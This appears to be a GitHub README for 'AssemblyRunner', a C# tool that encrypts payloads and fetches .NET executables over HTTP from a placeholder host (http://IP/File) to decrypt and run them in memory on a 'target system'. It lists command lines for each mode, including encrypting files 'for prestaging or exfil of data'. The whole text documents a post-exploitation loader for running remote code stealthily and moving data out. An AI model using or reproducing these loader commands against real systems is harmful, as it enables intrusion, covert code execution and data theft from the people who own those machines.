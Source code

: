 # AssemblyRunner

C# Binary that can encrypt files, decrypt files, as well as retreive files over HTTP and execute said files in-memory on a target system.

Overall goal was to be able to encrypt payload on remote system, transfer this binary, and then remotely retreive encrypted binary and execute in-memory

Functionality
.Net Exe Run in-memory with Arguments:

--Run remote .net exe (remote exe is b64 no encryption)
AssemblyRunner.exe -net http://IP/File(b64) "Arguments"

--Local .net exe File decrypt and run
AssemblyRunner.exe -rlocal PASSWORD File_to_Decrypt_and_run "Arguments"

--Remote .net File decrypt and run
AssemblyRunner.exe -rdec PASSWORD http://IP/File "Arguments"


.Net Exe Run in-memory without Arguments:
--Run remote .net exe (remote exe is b64 no encryption)
AssemblyRunner.exe -netno http://IP/File(b64)

--Local .net exe File decrypt and run
AssemblyRunner.exe -rlocalno PASSWORD File_to_Decrypt_and_run

--Remote .net File decrypt and run
AssemblyRunner.exe -rdecno PASSWORD http://IP/File


File Encryption only:
--Encrypt Remote exe and download local, saved as encrypt_remote.txt
AssemblyRunner.exe -enc PASSWORD http://IP/File
--Encrypt Local File, used for prestaging or exfil of data, saved as encrypt_local.txt
AssemblyRunner.exe -file PASSWORD FILE/TO/ENC
--Local File Decrypt for exfil, not on target system, file saved as decrypted.txt
AssemblyRunner.exe -decfile PASSWORD File_to_Decrypt
